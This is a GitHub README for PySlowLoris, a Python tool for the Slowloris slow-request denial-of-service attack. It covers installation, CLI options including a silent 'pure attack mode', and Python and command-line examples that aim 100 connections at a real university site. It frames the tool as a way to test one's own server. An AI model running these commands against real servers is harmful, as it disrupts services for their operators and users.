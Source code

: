 ####THIS IS FOR EDUCATIONAL PURPOSE
# PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-3.8-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![PyPI version](https://badge.fury.io/py/pyslowloris.svg)](https://badge.fury.io/py/pyslowloris)

PySlowLoris is a tool for testing if your web server is vulnerable to slow-requests kind of attacks. The module is based on python-trio for Asynchronous I/O and poetry for dependency management. The idea behind this approach to create as many connections with a server as possible and keep them alive and send trash headers through the connection. Please DO NOT use this in the real attacks on the servers.

More information about the attack you can find [here].

### Installation

#### PyPi

For installation through the PyPI:

```sh
$ pip install pyslowloris==2.0.1
```
This method is prefered for installation of the most recent stable release.


#### Source-code

For installation through the source-code for local development:
```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ pip install poetry
$ pyenv install 3.8.3
$ pyenv local 3.8.3
$ poetry env use 3.8.3
```

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] -u URL [-c CONNECTION_COUNT] [-s]

Asynchronous Python implementation of SlowLoris attack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Link to a web server (http://google.com) - str
  -c CONNECTION_COUNT, --connection-count CONNECTION_COUNT
                        Count of active connections (default value is 247) - int
  -s, --silent          Ignore all of the errors [pure attack mode] - bool
```

### Docker usage

#### Download image from Docker Hub

Pull the image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run a container:

```bash
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

#### Build image from source-code

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run a container:

```bash
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

**Note:** *Don't forget about 'sudo'!*



### Example of usage

#### How to use module through Python API
Here is an example of usage

```python
from pyslowloris import HostAddress, SlowLorisAttack

url = HostAddress.from_url("http://kpi.ua")
connections_count = 100

loris = SlowLorisAttack(url, connections_count, silent=True)
loris.start()
```

#### How to use module via CLI

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -c 100 -s
```
###### stop execution: Ctrl + C



### Testing

#### Testing with real apache server

```bash
$ docker-compose up web_server -d
$ .....
```

#### Module-tests
```bash
$ make pytest
```

### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact me.

### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017-2020 Maxim Krivich

[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
